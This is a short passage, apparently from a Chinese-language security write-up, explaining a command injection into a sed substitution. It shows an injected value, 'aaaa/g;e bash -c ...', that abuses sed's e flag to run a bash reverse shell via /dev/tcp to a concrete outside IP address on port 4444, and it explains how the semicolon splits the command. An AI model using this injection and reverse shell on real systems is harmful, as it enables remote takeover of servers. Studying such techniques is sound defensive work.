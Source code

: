 [![](assets/1706957701-36b542d3c54cdd9190c53da224f806ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202171253-3f2e204c-c1ab-1.png)

所以我们变成：

```plain
aaaa/g;e bash -c "bash -i >& /dev/tcp/120.79.29.170/4444 0>&1";

#整条变成：
sed -i "s/METHOD/aaaa/g;e bash -c "bash -i >& /dev/tcp/ip/4444 0>&1";/g" "$NEW_FILENAME"
```

> 通过;分割命令的参数，整条命令就是将`$NEW_FILENAME`中的`METHOD`替换为`aaaa`，并且执行反弹 shell 的命令，至于`/g`并没有任何作用，只要不报错就好了。
